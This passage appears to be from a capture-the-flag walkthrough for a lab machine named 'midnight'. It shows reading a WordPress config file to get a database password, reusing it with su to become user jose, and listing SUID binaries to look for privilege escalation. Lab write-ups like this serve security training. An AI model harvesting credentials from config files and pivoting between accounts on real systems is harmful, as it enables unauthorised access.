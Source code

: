 
## Read the contents of wp-config.php

Locate the password for _jose_ in the _wp-config.php_ file

```bash
www-data@midnight:/var/www/html/wordpress$ cat wp-config.php

/** MySQL database username */
define( 'DB_USER', 'jose' );

/** MySQL database password */
define( 'DB_PASSWORD', '645dc5a8871d2a4269d4cbe23f6ae103' );


```

## Pivot to Jose via SU Command

Use _su_ comman to switch to _jose_ uer

```bash
www-data@midnight:/var/www/html/wordpress$ su jose
Password:
jose@midnight:/var/www/html/wordpress$ id
uid=1000(jose) gid=1000(jose) groups=1000(jose),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)

```

## Check SUDO Permissions for Jose

Jose cannot run sudo on the target machine

## Check SUID Bits

```bash
jose@midnight:~$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/su
/usr/bin/sudo
/usr/bin/fusermount
/usr/bin/status
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/gpasswd
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign

```
